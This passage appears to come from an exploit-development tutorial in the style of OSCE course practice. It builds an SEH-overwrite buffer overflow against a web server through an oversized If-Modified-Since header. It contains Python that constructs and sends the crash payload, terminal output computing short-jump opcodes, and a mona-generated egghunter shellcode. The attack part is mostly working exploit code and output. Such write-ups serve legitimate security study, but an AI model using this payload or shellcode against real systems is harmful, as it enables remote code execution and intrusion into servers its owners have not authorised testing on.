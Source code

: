 ```python
crash = "A" * 304
crash += nseh
crash += seh


req = "GET / HTTP/1.1\r\n"
req += "Host: 192.168.1.201\r\n"
req += "User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0\r\n"
req += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"
req += "Accept-Language: en-US,en;q=0.5\r\n"
req += "Accept-Encoding: gzip, deflate\r\n"
req += "Connection: close\r\n"
req += "Upgrade-Insecure-Requests: 1\r\n"
req += "If-Modified-Since: Wed, " + crash + "\r\n\r\n"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
s.send(req)
s.close()
```

![](/assets/images/CTP/xitamiLand.JPG)

We land at `0006FF46`, let's make sure our negative jump was correct. 
```terminal_session
root@kali:~/OSCE/ # offset                                             
Enter Address #1: 6ff78
Enter Address #2: 6ff46
[+] Hex offset: 0x32
[+] Decimal offset: 50
[-] Negative jump opcodes: \xeb\xcc
[+] Positive jump opcodes: \xeb\x32
[-] ESP Sub Adjust Opcodes: \x54\x58\x2c\x32\x50\x5c
[+] ESP Add Adjust Opcodes: \x54\x58\x04\x32\x50\x5
```

Awesome, the offset is 50 bytes just like we planned. The trick with negative jumps is that you have to jump back through your jump instruction opcodes (2 bytes). So for a negative jump, you actually have to tell it to jump back `n+2` bytes where `n` is the desired offset. Calculating negative short jumps can be confusing as the values max out at `0x80` which comes right after the largest positive short jump value `0x7f`. So as the value grows after `0x80` (`0x81, 0x82, ...0xff`), the length of the negative jump actually **decreases**! Luckily, `offset.py` takes care of all that calcuation for us. We just give it our desired outcome in decimal. 

## Egghunter

We will use mona to generate an egghunter with the tag `PWNS`. (`!mona egg -t PWNS`)
```terminal_session
"\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x50\x57\x4e\x53\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
```
